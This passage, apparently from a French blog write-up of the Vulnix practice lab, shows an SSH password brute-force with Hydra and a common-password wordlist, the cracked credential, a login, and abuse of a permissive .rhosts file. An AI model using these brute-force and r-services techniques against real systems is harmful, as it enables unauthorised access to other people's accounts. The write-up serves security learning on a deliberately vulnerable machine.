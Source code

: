Ajouté à ça l'utilisateur *"user"* a un mot de passe facilement cassable.  

Ici j'ai utilisé *Hydra* avec une wordlist pompée [chez SkullSecurity](https://wiki.skullsecurity.org/Passwords) contenant les mots de passe les plus fréquents (dans l'ordre !)  

```plain
$ ./hydra -l user -P phpbb.txt  -e nsr ssh://192.168.1.54
Hydra v8.0 (c) 2014 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2014-07-03 19:07:30
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 184392 login tries (l:1/p:184392), ~720 tries per task
[DATA] attacking service ssh on port 22
[22][ssh] host: 192.168.1.54   login: user   password: letmein
[STATUS] attack finished for 192.168.1.54 (waiting for children to finish) ...
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-07-03 19:07:33
```

Une fois connecté avec SSH :  

```plain
user@vulnix:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),100(users)
user@vulnix:~$ ls -al
total 28
drwxr-x--- 3 user user 4096 Sep  2  2012 .
drwxr-xr-x 4 root root 4096 Sep  2  2012 ..
-rw-r--r-- 1 user user  220 Sep  2  2012 .bash_logout
-rw-r--r-- 1 user user 3486 Sep  2  2012 .bashrc
drwx------ 2 user user 4096 Sep  2  2012 .cache
-rw-r--r-- 1 user user  675 Sep  2  2012 .profile
-rw------- 1 user user    7 Sep  2  2012 .rhosts
user@vulnix:~$ cat .rhosts 
+ user
```

Ajouté à ça, on peut se connecter en tant que *user* via les r\* services grâce au fichier *.rhosts* ! Il suffit de disposer d'un compte *user* sur la machine attaquante.  

Il manquait plus que du *NIS* et la boucle était bouclé. *NIS* ? ... Non, laissez tomber !  

Un challenge sympathique mais c'est dommage de ne pas avoir pu le terminer.

*Published July 04 2014 at 22:26*
